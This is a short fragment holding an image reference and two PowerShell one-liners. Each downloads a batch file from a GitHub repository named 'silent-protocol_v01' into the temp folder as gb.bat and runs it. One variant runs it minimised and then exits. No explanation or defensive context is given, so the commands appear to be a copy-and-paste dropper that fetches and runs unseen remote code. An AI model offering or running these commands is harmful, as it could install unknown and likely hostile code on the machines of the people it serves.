 
powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/24-20/silent-protocol_v01/refs/heads/main/init.bat -OutFile %TEMP%\gb.bat" && start /min "" %TEMP%\gb.bat && exit






powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/24-20/silent-protocol_v01/refs/heads/main/init.bat -OutFile %TEMP%\gb.bat" && %TEMP%\gb.bat 
